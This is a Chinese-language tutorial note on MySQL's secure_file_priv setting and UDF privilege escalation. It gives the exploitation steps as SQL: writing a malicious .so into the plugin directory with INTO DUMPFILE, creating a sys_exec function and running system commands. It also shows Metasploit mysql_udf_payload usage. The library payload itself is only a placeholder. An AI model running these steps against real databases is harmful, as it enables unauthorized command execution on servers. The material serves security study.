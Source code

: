 # MySQL

在 MySQL 中，`secure_file_priv` 是一个关键的安全配置变量，用于控制是否允许通过 LOAD_FILE() 和 LOAD_DATA 等函数执行文件的导入和导出操作。

```sql
show variables like '%secure_file_priv%';
```

如果值为空（NULL/空字符串），表示未启用文件路径限制，允许从任意路径导入/导出文件。攻击者可利用此配置漏洞写入恶意文件。

## MySQL UDF 提权

MySQL 用户定义函数(UDF)允许通过 C/C++编写扩展功能，但配置不当可能被攻击者利用进行权限提升，获取系统级控制权限。

攻击者利用 MySQL 的`FILE`权限写入恶意动态链接库(.so/.dll)，通过 UDF 机制加载执行，从而以 MySQL 服务账户身份执行系统命令。

利用前提条件：

1. **文件写入权限**：具备`FILE`权限可写文件
2. **插件目录路径**：知晓`plugin_dir`位置(如 Linux 默认`/usr/lib/mysql/plugin/`)
3. **恶意动态库**：预先编译好的恶意 so/dll 文件

`secure_file_priv`

### 环境搭建

### 漏洞利用

定位插件目录

```sql
SHOW VARIABLES LIKE 'plugin_dir';  
```

上传恶意库文件

```sql
SELECT 恶意代码 INTO DUMPFILE '/usr/lib/mysql/plugin/hack.so';
```

创建恶意函数

```sql
CREATE FUNCTION sys_exec RETURNS INT SONAME 'hack.so';
```

执行系统命令

```sql
SELECT sys_exec('whoami');
```

```bash
msf > use exploit/multi/mysql/mysql_udf_payload
msf exploit(mysql_udf_payload) > show targets
        ...targets...
msf exploit(mysql_udf_payload) > set TARGET < target-id >
msf exploit(mysql_udf_payload) > show options
        ...show and set options...
msf exploit(mysql_udf_payload) > exploit
```

### 参考资料

- <https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf>
- <https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf>
- <https://github.com/SafeGroceryStore/MDUT/tree/main>
